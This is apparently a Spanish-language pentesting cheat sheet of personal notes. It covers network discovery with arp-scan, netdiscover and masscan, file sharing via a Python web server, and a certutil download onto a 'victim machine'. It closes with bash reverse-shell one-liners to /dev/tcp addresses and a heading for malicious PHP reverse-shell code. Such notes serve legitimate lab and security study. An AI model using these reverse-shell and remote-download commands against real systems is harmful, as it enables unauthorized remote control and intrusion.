## DETECTAR EQUIPOS CONECTADOS A MI RED CON ARP-SCAN
Para ello tenemos que ejecutar el siguiente comando pasándole la interfaz de red que estemos utilizando:
![[Pasted image 20221230095219.png]]
Y por ejemplo si la interfaz de red es otra, la tendremos que seleccionar (como en este caso que estoy utilizando un portátil):
![[Pasted image 20221230095402.png]]
## DETECTAR EQUIPOS CONECTADOS A MI RED CON NETDISCOVER
También podemos hacer esto mismo pero con netdiscover:
```bash
netdiscover -i eth0 -r 192.168.0.0/24
```
![[Pasted image 20230726112842.png]]
## DETECTAR PUERTOS ABIERTOS DE TODOS LOS HOSTS DENTRO DE MI RED CON MASSCAN
Podemos utilizar esta herramienta de la siguiente forma y me detecta todos los puertos 445 de todos los equipos conectados a mi rando de red:
![[Pasted image 20230414125831.png]]
También podemos hacerlo como /16 por si queremos ampliar la búsqueda de más equipos que se encuentren en otros rangos de la red, por ejemplo si hay un host que sea 192.168.0.20.44:
![[Pasted image 20230414125924.png]]
## COMPARTIR ARCHIVOS POR SERVIDOR WEB DE PYTHON
Para ello nos ubicamos dentro del directorio que queramos compartir y ejecutamos lo siguiente:
![[Pasted image 20221217112301.png]]
Ahora si hacemos un localhost o introducimos la IP que nos dicen, aparecerá lo siguiente:
![[Pasted image 20221217112310.png]]
## COMPARTIR ARCHIVOS CON CERTUTIL
También podemos compartir archivos por la red usando certutil, de tal forma que desde la máquina atacante podemos levantar un servidor http:
![[Pasted image 20231202124800.png]]
Y para recibir el archivo podemos utilizar certutil desde la máquina víctima:
```python
certutil -split -urlcache -f http://192.168.0.32/test.txt
```
![[Pasted image 20231202124834.png]]
## CONSEGUIR REVERSE SHELL DE MÁQUINA VÍCTIMA A NUESTRO EQUIPO

Para ello primero pondremos a escuchar con netcat desde nuestro equipo host:
![[Pasted image 20221217112335.png]]
Después, desde la máquina víctima necesitaremos que ejecute el siguiente código para enviarnos una bash:
```bash
bash -i >& /dev/tcp/10.10.16.27/443 0>&1
```
Aunque si lo hacemos desde un navegador, debemos escribirlo de esta manera, porque al poner bash -c seleccionamos el intérprete:
```bash
bash -c 'bash -i >& /dev/tcp/10.8.100.91/443 0>&1'
````
## Código PHP malicioso para ganar Reverse Shell